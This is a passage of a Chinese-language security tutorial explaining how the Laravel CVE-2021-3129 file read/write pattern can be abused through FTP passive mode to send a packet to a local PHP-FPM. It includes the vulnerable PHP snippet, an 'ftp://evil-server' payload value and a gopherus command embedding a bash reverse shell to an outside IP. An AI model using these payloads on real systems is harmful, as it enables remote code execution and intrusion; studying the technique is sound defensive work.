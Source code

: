 这是在之前复现 Laravel Debug mode RCE（CVE-2021-3129）漏洞时学到的一个思路。该漏洞的核心就是传入 file\_get\_contents() 和 file\_put\_contents() 这两个函数中的内容没有经过过滤，从而可以通过精巧的构造触发 phar 反序列化，达到 RCE 的效果。

漏洞代码大致可以简化为如下代码：

```plain
<?php
$contents = file_get_contents($_GET['viewFile']);
file_put_contents($_GET['viewFile'], $contents);
```

可以看到这里主要功能点是：读取一个给定的路径 `$_GET['viewFile']`，之后写回文件中 `$_GET['viewFile']`，这相当于什么都没有做！

由于我们可以运行 file\_get\_contents() 来查找任何东西，因此，可以运用 SSRF 常用的姿势，通过发送 HTTP 请求来扫描常用端口。假设此时我们发现目标正在监听 9000 端口，则很有可能目标主机上正在运行着 PHP-FPM，我们可以进一步利用该漏洞来攻击 PHP-FPM。

众所周知，如果我们能向 PHP-FPM 发送一个任意的二进制数据包，就可以在机器上执行代码。这种技术经常与 gopher://协议结合使用，curl 支持 gopher://协议，但 file\_get\_contents 却不支持。

另一个已知的允许通过 TCP 发送二进制数据包的协议是 FTP，更准确的说是该协议的被动模式，即：如果一个客户端试图从 FTP 服务器上读取一个文件（或写入），服务器会通知客户端将文件的内容读取（或写）到一个有服务端指定的 IP 和端口上。而且，这里对这些 IP 和端口没有进行必要的限制。例如，服务器可以告诉客户端连接到自己的某一个端口，如果它愿意的话。

现在，如果我们尝试使用 `viewFile=ftp://evil-server/file.txt` 来利用这个漏洞，会发生以下情况：

-   首先通过 file\_get\_contents() 函数连接到我们的 FTP 服务器，并下载 file.txt。
-   然后再通过 file\_put\_contents() 函数连接到我们的 FTP 服务器，并将其上传回 file.txt。

现在，你可能已经知道这是怎么回事：我们将使用 FTP 协议的被动模式让 file\_get\_contents() 在我们的服务器上下载一个文件，当它试图使用 file\_put\_contents() 把它上传回去时，我们将告诉它把文件发送到 127.0.0.1:9000。这样，我们就可以向目标主机本地的 PHP-FPM 发送一个任意的数据包，从而执行代码，造成 SSRF 了。

下面我们来演示一下攻击过程。

首先，我们使用 gopherus 生成攻击 fastcgi 的 payload：

```plain
python gopherus.py --exploit fastcgi
/var/www/html/index.php  # 这里输入的是目标主机上一个已知存在的 php 文件
bash -c "bash -i >& /dev/tcp/192.168.43.247/2333 0>&1"  # 这里输入的是要执行的命令
```

[![](assets/1698897074-24dd0b4bc43231ead75054833d890ca7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210512134743-91ebb1a0-b2e5-1.png)
